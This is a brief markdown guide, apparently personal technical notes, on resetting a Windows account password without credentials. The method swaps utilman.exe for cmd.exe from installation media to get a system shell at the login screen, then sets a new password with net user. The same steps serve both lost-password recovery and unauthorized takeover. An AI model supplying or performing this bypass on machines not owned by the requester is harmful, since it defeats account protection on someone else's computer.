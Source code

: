 
## Microsoft Windows 

### Account

#### How to change user account

Let's take a look to how to change user password without any access through Windows ISO.
Boot on Windows 10 ISO
On the language screen, chose your language and hit **SHIFT+F10**

##### 1.1. Get Logical Volume inforations
When the cmd terminal is oppened, list Diske Caption and Volume Name :

```powershell
wmic logicaldisk get caption, VolumeName
```

Move to the Disk you want (letter found with the previous command)

```powershell
d:
```

Go to the system32 folder 

```powershell
cd windows\system32
```

##### Utilman
Use utilman despite off cmd.exe

```powershell
ren utilman.exe utilman.exe.bak
ren cmd.exe utilman.exe
```

Reboot
```powershell
wpeutil reboot
```

#### Change user password
After rebooting, clic on accessibility icon

##### Change password
Change the user password

```powershell
Example :
net user admin root

net user $USER pass
```

##### Active user
Active user
